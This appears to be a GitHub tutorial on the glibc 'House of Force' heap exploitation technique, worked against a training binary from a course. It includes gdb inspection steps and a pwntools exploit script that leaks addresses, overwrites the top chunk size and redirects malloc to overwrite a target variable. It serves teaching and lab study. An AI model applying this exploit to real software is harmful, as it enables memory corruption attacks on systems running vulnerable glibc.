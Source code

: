 # Heap Exploitation Series - House of Force
House of Force technique is about abusing heap's top chunk field, increasing it, and overwriting target data. This technique takes advantage of glibc versions which have no integrity checks.

Let's take a binary example. This binary has been taken from Max Kemper's amazing course "Linux Heap Exploitation - Part 1"(https://www.udemy.com/course/linux-heap-exploitation-part-1/).

We can check the protections of the binary with 'checksec' command:
![Pasted image 20220502232544](https://user-images.githubusercontent.com/99656904/167670546-50a42217-b138-44ee-b164-a02fdf5cbec1.png)

We run the program inside gdb and allocate heap memory chunk of size 24 bytes:
![Pasted image 20220506103118](https://user-images.githubusercontent.com/99656904/167670206-84239235-b0e1-472d-8ddf-7d886362f350.png)

We can view the status of the heap by breaking the application and then issuing 'vis' command:
![Pasted image 20220506103221](https://user-images.githubusercontent.com/99656904/167670356-5c92c863-159c-4004-91cd-cbf1663bc796.png)
As you can see our input values 'YYYY has been written into the user space of the heap.

We can show the target value with second option in the binary. We can display memory location of the target with 'dq &target' command:
![Pasted image 20220506103416](https://user-images.githubusercontent.com/99656904/167670451-d7229578-64c0-4b5b-a89a-0aa68854977a.png)
As you can see, target is located at 0x00602010 and it holds bunch of Xs.

'xinfo' commands allows to display where in memory a specific variable is located:
![Pasted image 20220506102912](https://user-images.githubusercontent.com/99656904/167670620-d6633bed-7be9-44f4-8438-ffc836f313cd.png)
As you can see, it is located at the data section.

With the heap top chunk size increased we may overwrite data in the Libraries and Stack sections. However, our target data resides in .data section of the binary which has a lower address than the heap. By typing a very large top chunk value we may eventually overwrite the application section as well.
![Pasted image 20220508202935](https://user-images.githubusercontent.com/99656904/167670690-7d25ebec-e50a-42e8-8d93-4385ea5c731e.png)

We're gonna use pwntools to make things easier.

We use the script utilizing pwntools to run the binary and send our input to it. The code:
```Python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("house_of_force")
libc = ELF(elf.runpath + b"/libc.so.6") # elf.libc broke again

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

# Select the "malloc" option, send size & data.
def malloc(size, data):
    io.send(b"1")
    io.sendafter(b"size: ", f"{size}".encode())
    io.sendafter(b"data: ", data)
    io.recvuntil(b"> ")

# Calculate the "wraparound" distance between two addresses.
def delta(x, y):
    return (0xffffffffffffffff - x) + y

io = start()

# This binary leaks the address of puts(), use it to resolve the libc load address.
io.recvuntil(b"puts() @ ")
libc.address = int(io.recvline(), 16) - libc.sym.puts

# This binary leaks the heap start address.
io.recvuntil(b"heap @ ")
heap = int(io.recvline(), 16)
io.recvuntil(b"> ")
io.timeout = 0.1

# =============================================================================

# =-=-=- EXAMPLE -=-=-=

# The "heap" variable holds the heap start address.
info(f"heap: 0x{heap:02x}")

# Program symbols are available via "elf.sym.<symbol name>".
info(f"target: 0x{elf.sym.target:02x}")

# The malloc() function chooses option 1 from the menu.
# Its arguments are "size" and "data".
malloc(24, b"Y"*24)

# The delta() function finds the "wraparound" distance between two addresses.
info(f"delta between heap & main(): 0x{delta(heap, elf.sym.main):02x}")

# =============================================================================

io.interactive()

```

Firstly, we allocate a heap memory of 24 bytes:
![Pasted image 20220510003143](https://user-images.githubusercontent.com/99656904/167670803-11bc5f47-ce27-4f74-b14d-48384c4f09e3.png)

Now, it would be better to see the heap space. We can do it via attaching GDB to the process. By utilizing `!./% GDB` we can run the program and gdb will automatically be attached:
![Pasted image 20220510003607](https://user-images.githubusercontent.com/99656904/167670864-3edfba9a-e87a-4829-aff5-4e6677943c5b.png)

Now, we see that the next bytes we allocate via malloc will allocate top chunk size. So, we put the largest 64 bit value, 0xffffffffffffffff. To ease typing hex chars, we will use p64 function of pwntools:

Now we run inside vim with `!./% GDB NOASLR` option to turn ASLR off as well:
![Pasted image 20220510004157](https://user-images.githubusercontent.com/99656904/167670920-0f321679-31e1-4c4a-b6fd-af3244ea34be.png)
As you can see, we were able to overwrite top chunk size value with the large value!

Next up, we calculate the distance between top chunk address and target value start address. Delta function comes in handy for this purpose. We just create a variable named destination and let the delta do the rest:
```Python
destination = delta(heap+0x20, elf.sym.target-0x20)
malloc(destination,"Y")
```

Now, we can see that top chunk size value is just before the target address space:
![Pasted image 20220510194325](https://user-images.githubusercontent.com/99656904/167671131-16b03220-42c6-4c9f-aaec-30356976fe62.png)

We can display info about top chunk with 'top_chunk' command as well:
![Pasted image 20220510194414](https://user-images.githubusercontent.com/99656904/167671179-4effae0d-d7ad-4292-bcde-2b4ff5e7fe1d.png)

Finally, we just use malloc to allocate another heap chunk which is gonna overlap the target, and with the garbage data we will overwrite the target value:
```Python
malloc(24, "Much Win")
```

Now we just run the binary and choose the target option to see target value:
![Pasted image 20220510194802](https://user-images.githubusercontent.com/99656904/167671236-4158383c-3267-44bd-bb5d-b60aeb01027c.png)

Boom! We successfully overwrote the value!
